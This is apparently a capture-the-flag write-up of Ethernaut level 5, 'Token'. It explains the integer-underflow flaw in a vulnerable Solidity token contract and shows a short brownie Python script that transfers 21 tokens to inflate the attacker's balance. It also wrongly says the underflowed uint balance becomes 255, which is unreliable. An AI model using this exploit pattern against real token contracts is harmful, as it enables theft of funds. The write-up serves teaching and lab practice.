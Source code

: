 ```yaml
---
title: Ethernaut - Level 05 - Token
date: 2022-09-15
---
```

{{<figure src="../images/token-5.svg" caption="Image courtesy of OpenZeppelin">}}
## Ethernaut 05 - Token
This level from Ethernaut, called Token, is a good exercise to become familiar with the **integer underflow** and **integer overflow** concepts. In this challenge you are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a **very large number of tokens**.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

As usual, lets start explaining some basic concepts before we dive deep into where is the vulnerability and how to exploit it.

The hint that we get for this challenge is to look up what an `odometer` is. At first it may not sound very clear to you but let's briefly explain why odometers may be related with this vulnerable contract.

Odometers have been used for decades in the form of milage counters in cars or to measure the flow of electricity in units call kilowatt-hour. These meters have been replaced to digital ones, but back in the days they used to be analog and had a maximum of six digits that could count up to 999999. Once they reached its maximum value the counter would start over at the next available value of the odometer, which would be 000000. This behavior is what we would call in programming as **overflow**.

Now imagine the opposite, think for a moment that your odometer has reached the value 000000 and your flow of electricity is negative. As you may have thought already, the odometer would count backwards and go to the next available value possible, which would be 999999. That's what we would call an **underflow**

For the sake of simplicity, lets translate these concepts into Solidity and assume we have an unsigned 8-bit integer (**uint8**) which cannot hold negative values and only holds 8 bits of data that can be either 0 or 1, meaning we have 2^8 or 256 possible values ranging from 0 to 255.

{{<figure src="../images/ethernaut-token-5-pic1.png" caption="Visual representation for an integer overflow and underflow">}}

Based on this, when you attempt to make a `uint8` negative, this will trigger an underflow and it will turn out to contain a high value instead. The opposite happens when you attempt to increment a `uint8` that has 255 as value, triggering an overflow.

## Where is the vulnerability?
Now that we have explained the basics on this type of vulnerability let's see where the problem with this contract is.

As you may have figured out already, the vulnerability in this contract is in the `transfer` method, concretely in the `require` statement:


```solidity {lineos=table,hl_lines=[2],lineofstart=1}
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); // _value >= 21
    balances[msg.sender] -= _value; // 20 - 21 = 255
    balances[_to] += _value; // 0 + 21 = 21
```

We must provide a value that causes an integer underflow and the only way to achieve this is by providing a value higher than 20 __*__.

__*__ *Every time we create a new instance of this contract we will receive as player a total of 20 tokens* 

The `require` statement would pass only if the value obtained from `balances[msg.sender] - _value` is greater or equal to 0. As we have mentioned earlier in this post, if we attempt to make a `uint8` variable negative, this will trigger an underflow and it will turn out to contain a high value instead. Based on this, it looks like the number `21` may help us achieve our purpose, as it will trigger an underflow (_remember that we have been granted 20 tokens_), setting our balance to `255`.


## Hacking the contract
The exploitation of this contract will be pretty straightforward and simple and it won't require creating a malicious contract. Instead, we will simply create a new instance of the vulnerable contract and call the `public` method, `transfer`, as shown below:


```python {lineos=table,hl_lines=[5,10,12],lineofstart=1}
from brownie import accounts, config, interface

def attack(token, hacker, fake_account):
    print(f'Balance before attack: {token.balanceOf(hacker)}')
    tx = token.transfer(fake_account, 21, {'from': hacker, 'allow_revert':True})
    tx.wait(2)
    print(f'Balance after attack: {token.balanceOf(hacker)}')

def main(target):
    token = interface.TokenInterface(target)
    hacker = accounts.add(config['wallets']['from_key'])
    fake_account = "0x00000000000000000000000000000000cafebabe"

    attack(token, hacker, fake_account)
```

Once we execute the script, the `token.transfer` call will start the attack by sending `21` tokens to the vulnerable contract, and therefore, causing the **integer underflow** and completing this challenge.

## Takeaways
Although these vulnerabilities are no longer exploitable on recent versions of solidity (`v.0.8.0`) as underflow/overflow causes failing assertion by default, it is recommended to use vetted safe math libraries for arithmetic operations consistently throughout the smart contract system, such as openzeppelin's [SafeMath](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath).